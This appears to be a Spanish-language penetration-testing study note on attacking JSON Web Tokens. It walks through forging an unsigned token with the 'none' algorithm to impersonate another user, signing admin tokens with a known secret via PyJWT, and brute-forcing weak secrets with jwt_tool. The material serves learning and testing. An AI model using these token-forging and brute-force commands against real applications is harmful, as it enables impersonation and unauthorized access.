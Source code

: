 ----
- Tags: #ataquest #teoria #enumeration #basico #practica 
----

# ¿ Que son los **Json Web Tokens (JWT)** ? 

Los **Jason Web Tokens (JWT)** son un tipo de token utilizado en la **autenticación** y **autorización** de usuarios en aplicaciones web. JWT es un estándar abierto (RFC 7519) que define un formato compacto y seguro para transmitir información entre diferentes partes de forma confiable. 

----

# Prevenir estos ataques 

Para prevenir la enumeración y explotación de los JWT, es importante utilizar prácticas seguras de desarrollo web, como la validación adecuada de las solicitudes de entrada, la gestión segura de las claves de firma JWT y la limitación del tiempo de expiración de los JWT.

----

# Enumeración 

La enumeración de los JWT se produce cuando un atacante utiliza técnicas de fuerza bruta o cierta ingeniería inversa para obtener información sobre los JWT utilizados por la aplicación web. Por ejemplo, el atacante podría intentar adivinar los valores de los JWT mediante la construcción de **tokens falsos**, tratando de validar en todo momento si la aplicación web los acepta o no. Si el atacante tiene éxito en la enumeración de un JWT válido, podría obtener información confidencial, como nombres de usuario, contraseñas, roles de usuario y otros datos sensibles. 

----

# Explotación 

La explotación de los JWT se produce cuando un atacante utiliza la información obtenida de la enumeración del JWT para explotar debilidades en la aplicación. Por ejemplo, si la aplicación web utiliza JWT para la autenticación, pero no valida adecuadamente la **firma** del JWT, un atacante podría falsificar el token y acceder a la aplicación web como si fuera un usuario legítimo. 

Ahora bien, es importante entender como se construye un JWT: 

![[JWT_Strcture.png]]

Los JWT se separan por puntos, siendo la primera cadena y la segunda, correspondientes a, en primer lugar el **hearder** y en segundo lugar el **payload**. Estas dos cadenas suelen se un JSON convertido a Base64. Por ultimo tenemos la **verify signature**, es decir la firma de verificación digital, la cual se encarga de validar la integridad del token para evitar posibles modificaciones y se compone de un "secret", es decir, una clave secreta junto a un algoritmo de encriptación. 

- # Verify Siganutre None

De cara a un ataque para robar la identidad de otro usuario o ataques de JWT, lo que se suele probar en primer lugar es una técnica para **burlar** dicha **verify signature** ( Esto funcionara en páginas las cuales estén mal desarrolladas y no se valide adecuadamente la firma ). 

El ataque consiste en cambiar el método de encriptación a **NONE**, haciendo uso de la página [JWT.io](https://jwt.io) podemos ingresar tokens para ver como estos se conforman: 

![[JWT.io.png]]

De esta manera podemos ver que la primera parte correspondiente al **HEADER** es un JSON en base64 con el siguiente formato: 

```json
{
	"alg": "HS256",
	"typ": "JWT"
}
```

Mientras que el **PAYLOAD** es un JSON en base64 con el siguiente formato: 

```json
{
	"id": 1,
	"iat": 1685376579,
	"exp": 1685350179
}
```

Y la **VERIFY SIGNATURE** es un HASH con el formato HS256 del conjunto de HEADER + . + PAYLOAD + ( CLAVE SECRETA | SECRET ). 

Por lo que para, por ejemplo, suplantar la identidad del usuario 2, entendemos que en el **PAYLOAD** deberíamos remplazar el **"id":1** por un **"id":2**, pero nuestro problema es que no conocemos el secret por si existiera una validación en el código de este mismo... Pero como mencionamos anteriormente, existen páginas que se encuentran mal desarrolladas y no validan dicha signature, por lo que en primer lugar lo que podríamos intentar realizar es burlar este haciendo uso de un tipo de cifrado NONE, por lo que deberiamos remplazar el **HEADER** por el siguiente JSON: 

```json
{
	"alg": "NONE",
	"typ": "JWT"
}
```

Luego, convertirlo a base64, y el resultado de este sería nuestro primer fragmento de el JWT: 

```bash
echo -n '{"alg":"NONE","typ":"JWT"}' | base64 
```

Por ultimo, realizariamos el cambio necesario en el **PAYLOAD**, en este ejemplo al intentar remplazar la identidad del usuario 2 simplemente remplazariamos el id: 

```json
{
	"id": 2,
	"iat": 1685376579,
	"exp": 1685350179
}
```

Y una vez más, lo convertimos a base64: 

```bash
echo -n '{"id":2,"iat":1685376579,"exp":1685350179}' | base64 
```

El conjunto de ambas cadenas en base64 separadas un por un punto, junto a un punto al final dejando vació la **SIGNATURE**, en caso de que la aplicación este mal desarrollada, daría como resultado un JWT válido. 

```bash
echo -n '{"alg":"NONE","typ":"JWT"}' | base64 # eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0=
echo -n '{"id":2,"iat":1685376579,"exp":1685350179}' | base64 # eyJpZCI6MiwiaWF0IjoxNjg1Mzc2NTc5LCJleHAiOjE2ODUzNTAxNzl9
# JWT: 
# {resultado_base64_header}.{resultado_base64_payload}.
# eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MiwiaWF0IjoxNjg1Mzc2NTc5LCJleHAiOjE2ODUzNTAxNzl9. 
```

- # ByPass de JWT con secret 
Por otro lado, una manera de burlar las autenticaciones de JWT es teniendo el **secret** en donde podríamos generar JWT con privilegios elevados.

```bash
pip3 install PyJWT
```
Una vez instalado el modulo **PyJWT** podríamos importar la libreria **jwt** para generar nuestros propios jwt con el **secret** que tengamos.

```python
import jwt
jwt.encode({'username':'admin'},{secret},algorithm="HS256")
```

- # Secret comun 
Otro caso es cuando tenemos que la aplicación **SI VALIDA** el **VERIFY SECRET** de nuestro JWT, pero existe la posibilidad de que es secret sea común y este en diccionarios tipicos, por lo que podríamos probar en la página [JWT.io](https://jwt.io) de ingresar un secreto débil típico que se encuentre en un diccionario de fuerza bruta e ir probando. 

-----
# Jwt_tool
Otra herramienta que podemos utilizar es la herramienta [jwt_tool](https://github.com/ticarpi/jwt_tool) la cual nos permite realizar diversas tareas relacionadas con los JWT Tokens como **decodificarlos**, **análisarloos**, **manipularlos**, **generarlos** y realizar ataques de **fuerza bruta y fuzzing**.

```bash
# Instalación 
sudo git clone https://github.com/ticarpi/jwt_tool

# Usage

# Decodificar JWT
python3 jwt_tool.py '{jwt}' 

# Ataques comunes (PlayBook)
python3 jwt_tool.py -t {url} -rh "{token_header} {toekn} ('Authorization: Barer {jwt}')" -M pb

# Realizar ataques 

# Algoritmo:none
python3 jwt_tool.py '{jwt}' -X a

# Brute Force
python3 jwt_tool.py '{jwt}' -C -d {secrets_list}

```